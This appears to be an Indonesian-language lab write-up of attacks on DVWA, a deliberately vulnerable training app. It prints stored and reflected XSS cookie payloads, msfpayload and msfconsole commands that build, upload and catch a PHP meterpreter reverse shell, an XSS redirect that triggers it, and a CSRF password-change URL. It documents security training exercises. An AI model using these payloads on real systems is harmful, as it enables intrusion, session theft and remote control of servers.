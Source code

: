 4. SKenario expolit COOKIE di XSS STORED
Login ke DVWA buka menu XSS STORED. ISi seperti di bawah ini :
```
    Name: Test 3
    Message: <script>alert(document.cookie)</script>
    Click Sign Guestbook
```
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/29.PNG)
5. SKenario expolit windows.location di XSS STORED
Ketikkan perintah berikut
```
mkdir -p /root/backdoor
cd /root/backdoor
msfpayload php/meterpreter/reverse_tcp LHOST=10.0.100.102 LPORT=4444 R > FORUM_BUG.php 
```
Hilangkan tanda # di file FORUM_BUG.php
Login ke DVWA buka menu upload, upload file FORUM_BUG.php
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/30.PNG)
Buka msfconsole dan ketikkan perintah berikut
```
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.0.100.102
set LPORT 4444
exploit 
```
buka menu XSS STORED. ISi seperti di bawah ini :
```
    Name: Test 4
    Message:

    <script>window.location="http://192.168.1.106/dvwa/hackable/uploads/FORUM_BUG.php" </script>
        Replace 192.168.1.106 with the IP Address obtain from Fedora 14 in (Section 3, Step 3).

    Click Sign Guestbook
```
Jika berhasil , maka di msf console akan berubah jadi gambar berikut :
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/31.PNG)
### Lesson 10: Cross Site Request Forgery combined with Curl

1. Login ke DVWA, buka menu CSRF. ISi kolom new password dan kolom confirm new password untuk mendapatkan url seperti ini :
```
"http://10.0.1.100/dvwa/vulnerabilities/csrf/?password_new=test123&password_conf=test123&Change=Change#"
```

2. Buka menu XSS reflected. Ketikkan perintah berikut :
```
<script>alert(document.cookie)</script>
```
